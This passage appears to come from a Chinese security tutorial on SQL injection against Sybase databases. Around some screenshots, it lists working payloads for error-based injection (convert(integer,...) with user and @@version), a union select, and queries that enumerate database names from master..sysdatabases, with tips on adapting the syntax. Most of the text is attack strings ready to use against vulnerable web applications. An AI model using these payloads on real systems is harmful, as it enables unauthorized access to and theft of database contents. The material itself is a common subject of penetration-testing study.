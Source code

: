 ![enter image description here](http://drops.javaweb.org/uploads/images/1850f39434483649538dad6014f0b680af36c94a.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/cf55a2aaa016787b2891e5c7ce171f35d8874c29.jpg)

以报错方式注入时要注意，sybase是不支持不同类型数据直接相比较的（与MSSQL不同）：

```
id=1 and 1=user
id=1 and 1=convert(integer,user)

![enter image description here][28]

id=1 and 1=convert(integer,(select+@@version))

![enter image description here][29]

id=-1 union select 1,"",(select @@version)

```

![enter image description here](http://drops.javaweb.org/uploads/images/0e318b4a16034f3191b52ae0a5fa52afaef3c457.jpg)

列库（复杂版本）：

```
id=1 and 1=convert(integer,(SELECT MIN(ISNULL(CONVERT(NVARCHAR(4000),gJyQ.name),CHAR(32))) FROM (SELECT name FROM master..sysdatabases) AS gJyQ WHERE CONVERT(NVARCHAR(4000),gJyQ.name)>‘ ’)) 

```

列出第一个库master

```
id=1 and 1=convert(integer,(SELECT MIN(ISNULL(CONVERT(NVARCHAR(4000),gJyQ.name),CHAR(32))) FROM (SELECT name FROM master..sysdatabases) AS gJyQ WHERE CONVERT(NVARCHAR(4000),gJyQ.name)>’master‘))  

```

列出除master外的第一个库

![enter image description here](http://drops.javaweb.org/uploads/images/5c291124b89c7c7a33274ea0731bb53448ba4893.jpg)

列库（简单版本）：

```
id=1 and 1=convert(integer,(SELECT name FROM master..sysdatabases where dbid=1))   不断递增dbid的值

```

![enter image description here](http://drops.javaweb.org/uploads/images/152169603d5c4107178500b49a6a3376f8621601.jpg)

dbid是连续的数字，猜解起来很容易

![enter image description here](http://drops.javaweb.org/uploads/images/453213f72fc9d49d8f0908b17bbbbbbc41597087.jpg)

PS：虽然Sybase不能用TOP、for xml path，但是支持having、where not in等语法，变化方式依然有多种

